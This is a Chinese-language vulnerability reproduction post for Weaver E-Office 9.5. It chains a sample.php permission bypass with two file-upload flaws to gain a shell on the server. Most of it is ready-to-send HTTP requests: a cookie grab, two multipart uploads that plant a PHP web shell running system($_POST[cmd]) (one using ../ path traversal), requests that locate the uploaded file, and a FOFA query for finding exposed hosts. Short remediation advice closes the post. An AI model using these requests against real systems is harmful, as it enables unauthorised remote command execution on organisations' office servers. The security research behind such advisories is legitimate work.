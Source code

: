 
# 泛微 E-Office sample权限绕过+文件上传组合漏洞Getshell

### 0x01 产品简介

   [泛微](https://so.csdn.net/so/search?q=%E6%B3%9B%E5%BE%AE&spm=1001.2101.3001.7020 "   泛微")E-Office是一款[标准化](https://so.csdn.net/so/search?q=%E6%A0%87%E5%87%86%E5%8C%96&spm=1001.2101.3001.7020)的协同 OA 办公软件，泛微协同办公产品系列成员之一,实行通用化产品设计，充分贴合企业管理需求，本着简洁易用、高效智能的原则，为企业快速打造移动化、无纸化、数字化的办公平台。

### 0x02 漏洞概述

  [泛微](https://so.csdn.net/so/search?q=%E6%B3%9B%E5%BE%AE&spm=1001.2101.3001.7020)e-office 存在权限绕过漏洞（测试页面sample.php），攻击者可以通过此页面获取有效cookie绕过权限校验，利用后台文件上传漏洞上传后门文件获取服务器控制权限。

### 0x03 影响范围

 e-office=9.5

### 0x04 复现环境

FOFA：app="泛微-EOffice"

![](assets/1701222689-01afc942202787a11da42953dd50babc.png)

### 0x05 漏洞复现 

**获取有效cookie**

```cobol
GET /sample.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```

![](assets/1701222689-14c2d25adea452bfd458e247c7ca5c2f.png)

**文件上传PoC-1**

```cobol
POST /inc/ext/upload/file-upload.php HTTP/1.1
Host: your-ip
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryc3kzQm4dBRhin8Dk
Cookie: 获取到的cookie LOGIN_LANG=cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

------WebKitFormBoundaryc3kzQm4dBRhin8Dk
Content-Disposition: form-data; name="userfile"; filename="1.php4"
Content-Type: image/jpeg

<?php system($_POST[cmd]);unlink(__FILE__);?>
------WebKitFormBoundaryc3kzQm4dBRhin8Dk--
```

![](assets/1701222689-6fdd55633fb5ec9e63d89d0c3f90b394.png)

 获取上传路径

```cobol
GET /general/address/view/get-images.php?alb_id=11&start=0&limit=1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Cookie: 获取到的cookie LOGIN_LANG=cn;
Accept-Encoding: gzip
```

![](assets/1701222689-d791db7adfe26e132b29b67cca56a68e.png)

验证并命令执行

![](assets/1701222689-c9edfbf6e745b4dbdc1c2a4dbf3a4b96.png) **文件上传PoC-2**

```cobol
POST /general/system/interface/theme_set/save_image.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymzrNfz1ehkVc9A3Z
Cookie: 获取到的cookie LOGIN_LANG=cn;

------WebKitFormBoundarymzrNfz1ehkVc9A3Z
Content-Disposition: form-data; name="image_type"

../../clientTools
------WebKitFormBoundarymzrNfz1ehkVc9A3Z
Content-Disposition: form-data; name="upfile"; filename="1.php"
Content-Type: image/jpeg

<?php system($_POST[cmd]);unlink(__FILE__);?>
------WebKitFormBoundarymzrNfz1ehkVc9A3Z
Content-Disposition: form-data; name="theme_name"

theme3
------WebKitFormBoundarymzrNfz1ehkVc9A3Z--
```

![](assets/1701222689-1fdc5a4172548ac812111d6c34208ad9.png) ![](assets/1701222689-a3170b90b0b656180e525e8ebc181505.png)

获取上传路径及文件名

```cobol
GET /general/down.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Cookie: 获取到的cookie LOGIN_LANG=cn;
Accept-Encoding: gzip
```

![](assets/1701222689-5cbac5baa0a365170092c1001237dbd7.png)

验证并命令执行

![](assets/1701222689-bae5d2f61d785c68a058718fa82f3635.png)

### 0x06 修复建议 

官方已修复该漏洞，请用户联系厂商修复漏洞：https://www.weaver.com.cn/

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
